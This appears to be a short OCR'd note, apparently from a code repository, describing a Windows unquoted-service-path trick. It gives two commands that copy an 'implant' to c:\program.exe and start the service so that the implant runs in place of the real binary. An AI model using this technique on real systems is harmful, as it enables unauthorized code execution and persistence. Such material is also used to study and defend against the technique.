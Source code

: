 #TECHNIQUE 1  
  
#copy implant to  
copy file.exe c:\program.exe  
  
NOTE: origram must run another process that witch can still runing like notepad.exe  
  
#will run implant file becouse service have path like c:\program files\service\service.exe  
sc start service   
------------------------------------------------------------------------------------------------------